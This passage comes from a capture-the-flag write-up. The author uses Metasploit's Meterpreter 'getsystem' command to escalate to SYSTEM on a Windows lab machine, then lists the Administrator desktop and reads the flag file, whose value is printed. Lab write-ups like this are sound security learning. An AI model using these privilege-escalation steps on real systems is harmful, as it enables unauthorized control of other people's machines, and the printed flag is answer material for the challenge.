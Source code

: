 ## Getting System Privileges
Metasploit provides a very useful command (`getsystem`) in Meterpreter for Windows sessions, which will automate a variety of privilege escalation methods. My first instinct was to try using this command and on the first attempt, it successfully escalated to the SYSTEM user:

```shell_session
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now that I had access to the entire file system, I fished around in the administrator's user folder a bit, found the flag on the desktop, and successfully completed the CTF!

```shell_session
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2013-02-04 22:25:26 +0000  secret.txt

meterpreter > cat secret.txt
ab74f8217d5619acb2b708c7bdc50748
```
